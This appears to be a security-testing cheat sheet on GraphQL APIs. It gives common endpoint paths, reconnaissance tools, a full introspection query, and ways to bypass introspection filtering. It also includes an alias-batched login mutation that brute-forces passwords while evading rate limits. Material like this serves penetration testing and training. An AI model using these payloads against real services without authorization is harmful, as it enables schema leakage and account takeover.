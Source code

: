# Content
- [Common endpoint names](#common-endpoint-names)
- [Discovering schema information](#discovering-schema-information)
- [Bypassing GraphQL introspection defenses]()

## Common endpoint names 
- /graphql
- /api
- /api/graphql
- /graphql/api
- /graphql/graphql
also try appending /v1 to the path.


## tools 
- [graphql-voyager is tool for Visualization](https://graphql-kit.com/graphql-voyager/)
- [graphw00f](https://github.com/dolevf/graphw00f)
- [graphql-threat-matrix](https://github.com/nicholasaleks/graphql-threat-matrix)
- [GraphQLmap](https://github.com/swisskyrepo/GraphQLmap)


## Exploiting unsanitized arguments 
check for  Broken access control vulnerabilities or IDOR

## Discovering schema information 

### using Introspection
get names of all available queries. 
```graphql
    {
        "query": "{__schema{queryType{name}}}"
    }
```
get full scheme
```graphql
 query IntrospectionQuery {
        __schema {
            queryType {
                name
            }
            mutationType {
                name
            }
            subscriptionType {
                name
            }
            types {
             ...FullType
            }
            directives {
                name
                description
                args {
                    ...InputValue
            }
            onOperation  #Often needs to be deleted to run query
            onFragment   #Often needs to be deleted to run query
            onField      #Often needs to be deleted to run query
            }
        }
    }

    fragment FullType on __Type {
        kind
        name
        description
        fields(includeDeprecated: true) {
            name
            description
            args {
                ...InputValue
            }
            type {
                ...TypeRef
            }
            isDeprecated
            deprecationReason
        }
        inputFields {
            ...InputValue
        }
        interfaces {
            ...TypeRef
        }
        enumValues(includeDeprecated: true) {
            name
            description
            isDeprecated
            deprecationReason
        }
        possibleTypes {
            ...TypeRef
        }
    }

    fragment InputValue on __InputValue {
        name
        description
        type {
            ...TypeRef
        }
        defaultValue
    }

    fragment TypeRef on __Type {
        kind
        name
        ofType {
            kind
            name
            ofType {
                kind
                name
                ofType {
                    kind
                    name
                }
            }
        }
    }
```
### using Suggestions
this tool [Clairvoyance](https://github.com/nikitastupin/clairvoyance) can get the scheme info using suggestions 


## Bypassing GraphQL introspection defenses
- **manpulate the query**
You should try characters like spaces, new lines and commas, as they are ignored by GraphQL but not by flawed regex.


for example if `__schema{` is ignored , try
```graphql

    {
        "query": "query{__schema
        {queryType{name}}}"
    }

```

- **change request method or type**

```http
GET /graphql?query=query%7B__schema%0A%7BqueryType%7Bname%7D%7D%7D
```

- **use aliases to bypass ratelimit**
```graphql
mutation {

bruteforce0:login(input:{password: "123456", username: "carlos"}) {
        token
        success
    }


bruteforce1:login(input:{password: "password", username: "carlos"}) {
        token
        success
    }


bruteforce2:login(input:{password: "12345678", username: "carlos"}) {
        token
        success
    }


bruteforce3:login(input:{password: "qwerty", username: "carlos"}) {
        token
        success
    }
}
```
